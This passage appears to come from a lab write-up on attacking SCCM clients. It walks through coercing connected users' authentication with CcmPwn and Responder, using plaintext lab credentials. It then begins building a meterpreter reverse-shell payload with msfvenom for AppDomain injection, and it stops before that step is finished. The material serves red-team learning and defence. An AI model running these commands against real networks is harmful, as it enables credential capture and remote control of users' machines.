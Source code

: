 ## Impersonate Users - coerce connected users

- Recently Andrew Oliveau (@AndrewOliveau) has written [CcmPwn](https://github.com/mandiant/CcmPwn) a tool to impersonate users with sccm client. Blog post can be read [SeeSeeYouExec](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec?hl=en)

- The tool use impacket and can be used to coerce all the connected users with the help of SCNotification.exe.

- First create a connected user

```bash
xfreerdp /u:"eve" /p:"iloveyou" /d:"sccm.lab" /v:"192.168.33.13" /cert-ignore
```

- Then launch responder

```bash
Responder.py -I vmnet6
```

- And finally launch the coerce

```bash
python3 ccmpwn.py 'CLIENT'/administrator:'EP+xh7Rk6j90'@192.168.33.13 coerce -computer 192.168.33.1
```

![coerce_ccmpwn.png](/assets/blog/SCCM/coerce_ccmpwn.png)


## Impersonate Users - revshell connected users

- Appdomain manager abuse exist for some time now [https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/](https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/), [https://www.rapid7.com/blog/post/2023/05/05/appdomain-manager-injection-new-techniques-for-red-teams/](https://www.rapid7.com/blog/post/2023/05/05/appdomain-manager-injection-new-techniques-for-red-teams/), but the technic used with ccmpwn abuse can also load a dll on the different users. let's try that with metasploit as we have disabled defender on client.

- create the csharp shellcode

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.33.1 LPORT=443 -f csharp -o msf.cs
```

- create the csharp file poc.cs
